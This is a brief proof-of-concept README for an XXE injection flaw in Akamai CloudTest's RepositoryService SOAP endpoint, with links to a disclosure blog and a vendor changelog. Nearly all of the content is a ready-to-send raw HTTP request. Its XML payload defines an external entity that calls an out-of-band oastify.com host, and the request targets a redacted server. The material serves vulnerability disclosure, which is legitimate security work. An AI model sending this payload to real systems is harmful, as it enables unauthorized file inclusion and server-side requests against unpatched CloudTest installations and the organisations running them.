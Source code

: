# Akamai CloudTest - XXE Injection 

Akamai CloudTest before `60 2025.06.02 (12988)` allows file inclusion via XML External Entity (XXE) injection through the `/concerto/services/RepositoryService` SOAP endpoint.

---

## References

- https://xbow.com/blog/xbow-akamai-cloudtest-xxe/
- https://techdocs.akamai.com/cloudtest/changelog/june-2-2025-enhancements-and-bug-fixes

---

![image](https://github.com/user-attachments/assets/78ab085d-b700-4103-bf2e-d4719c000761)


## Proof of Concept (Raw HTTP Request)

```http
POST //concerto/services/RepositoryService HTTP/1.1
Host: readacted.com
Cache-Control: max-age=0
Sec-Ch-Ua: "Not)A;Brand";v="8", "Chromium";v="138", "Brave";v="138"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "macOS"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/138.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8
Sec-Gpc: 1
Accept-Language: en-US,en;q=0.9
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate, br
Priority: u=0, i
Connection: keep-alive
Content-Type: application/x-www-form-urlencoded
Content-Length: 610

<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE soapenv:Envelope [
  <!ENTITY xxe SYSTEM "http://b6it5hei11vmt9as2lbg98h4gvmrahy6.oastify.com">
]>
<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/"
                  xmlns:rep="http://example.com/services/repository">
   <soapenv:Header/>
   <soapenv:Body>
      <rep:getUIBundleObjectXml>
         <rep:uiBundleRequestXml>&xxe;</rep:uiBundleRequestXml>
      </rep:getUIBundleObjectXml>
   </soapenv:Body>
</soapenv:Envelope>

